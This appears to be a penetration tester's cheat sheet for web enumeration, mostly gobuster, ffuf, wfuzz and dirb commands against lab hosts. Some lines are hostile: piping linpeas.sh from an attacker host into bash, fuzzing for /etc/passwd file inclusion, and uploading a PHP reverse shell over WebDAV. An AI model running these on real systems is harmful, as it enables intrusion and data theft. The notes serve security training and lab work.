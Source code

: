 ```
echo -ne "GET / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n"
```

![](Pasted%20image%2020230923182239.png)

```
GET / HTTP/1.1\r\n
Host: google.com\r\n
Connection: close\r\n\r\n
```

```
\r (carriage return or 0x0d)
\n (new line or 0x0a)
```

```
nikto -h url
```

dirbuster
gobuster
feroxbuster

```
searchsploit mod ssl 2
```

```
dirb url
```

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'url/FUZZ' -k
```

```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t
5
```

```
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w
/usr/share/wordlists/dirb/small.txt
```

```
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://academy.htb/ -x .php, .txt -o gobuster-result.txt
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -u http://academy.htb -o gobuster-dir-root.log
```

```
gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt | tee enum/gobuster-dir-p80.log
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://academy.htb -o gobuster-vhost-sub.txt
```

```
grep \.git /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

![](Pasted%20image%2020231014122728.png)

```
curl -v 'url' -X POST --data '<key><value>>please</value></key>\n' -H 'Content-Type:application/xml'
```

```
curl -v 'url' -X POST --data '{"key": "please"}' -H 'Content-Type:application/json' --trace-ascii -
```

```
curl -v 'url' -X POST --data 'key: please' -H 'Content-Type:application/yaml' --trace-ascii -
```

```
curl attackerIP:8000/linpeas.sh | bash
```

```
python3 -m http.server
```

https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

### Directory & Files Bruteforce

*Filter by whitelisting codes*

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200,202,204,301,302,307,403 http://example.com/uploads/FUZZ
```

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://vulnerable.site/FUZZ
```

```
cadaver http://ip/directory/

put /var/www/html/php-reverse-shell.php
```

```
gobuster dns -d artcorp.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -q -r 8.8.8.8 -t 4 --delay 1s -o subdomains.txt
```

```
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u artcorp.htb -H "Host: FUZZ.artcorp.htb" --hh 0
```

